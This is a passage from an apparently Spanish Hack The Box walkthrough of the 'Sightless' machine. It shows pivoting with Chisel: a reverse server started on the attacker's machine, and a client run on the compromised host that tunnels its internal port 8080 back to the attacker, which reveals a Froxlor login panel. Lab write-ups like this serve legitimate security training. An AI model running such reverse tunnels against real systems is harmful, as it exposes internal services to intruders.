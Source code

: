 	```bash
	chisel server --port 8888 --reverse
	```

(*Nos tendremos que descargar en la máquina local **Chisel**, y pasarla mediante un servidor **HTTP** al servidor, y darle permisos de ejecución.*)

- Servidor
	
	Crea un túnel inverso con **Chisel**, redirigiendo el puerto **8080** de la máquina remota (servidor) hacia el puerto **8080** de mi máquina local. Esto permite acceder a un servicio corriendo en el servidor en nuestra máquina.
	
```bash
	michael@sightless:~$ ./chisel_1.10.0_linux_amd64 client Nuestra IP:8888 R:8080:127.0.0.1:8080
```

![picture](/assets/images/hackthebox/sigh17.png)

![picture](/assets/images/hackthebox/sigh18.png)

Si nos vamos al navegador e introducimos "**127.0.0.1:8080**", vemos el contenido del servicio, y nos sale un panel *Login* de **Froxlor**.

![picture](/assets/images/hackthebox/sigh19.png)
